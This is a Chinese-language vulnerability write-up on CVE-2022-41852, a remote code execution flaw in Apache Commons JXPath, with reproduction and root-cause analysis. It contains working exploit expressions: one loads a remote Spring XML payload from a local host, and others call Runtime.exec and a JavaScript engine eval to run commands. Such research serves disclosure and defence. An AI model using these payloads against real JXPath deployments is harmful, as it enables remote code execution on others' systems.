

# CVE-2022-41852 Apache Commons JXPath 远程代码执行漏洞

# 0x00 概述

## 漏洞描述

Apache JXPath 在解析用户提供的XPath表达式时，若使用了JXPathContext中除compile和compilePath之外的函数来解析XPath表达式时，会导致远程代码执行漏洞。

## 影响范围

全版本

# 0x01 环境

```xml
<dependency>
  <groupId>commons-jxpath</groupId>
  <artifactId>commons-jxpath</artifactId>
  <version>1.3</version>
</dependency>
```

# 0x02 复现

执行方式很多，给出几个例子

```java
public class RceDemo {
    public static class User {
        String name;

    }

    public static void main(String[] args) {
        JXPathContext jxPathContext = JXPathContext.newContext(new User());
        Object object = jxPathContext.getValue("org.springframework.context.support.ClassPathXmlApplicationContext.new(\"http://127.0.0.1:1234/payload.xml\")");
    }
}
```

# 0x03 分析

jxpath 其设计逻辑就是从表达式语言的角度出发，存在动态执行代码的能力，

跟进 `org.apache.commons.jxpath.ri.JXPathContextReferenceImpl#getValue()` 方法最终来到 `org.apache.commons.jxpath.ri.compiler.ExtensionFunction#computeValue()` 当中，在获取到 function 实现后，会去调用具体的 invoke 实现，即 ConstructorFunction 与 MethodFunction。



ConstructorFunction 与 MethodFunction 这两个方法提供了实例化构造函数和反射执行方法的能力，实例化方法就能想到通过 `org.springframework.context.support.ClassPathXmlApplicationContext` 加载远程 xml 实现反序列化。


而官方还提供了 demo 

```
String firstName = (String)context.getValue("getAuthorsFirstName($book)");
```

所以可以直接构造 Runtime 或 ScriptEngineManager 实现更简单的利用

```java
jxPathContext.getValue("exec(java.lang.Runtime.getRuntime(),'open -a Calculator')");
       jxPathContext.getValue("eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")')");
```


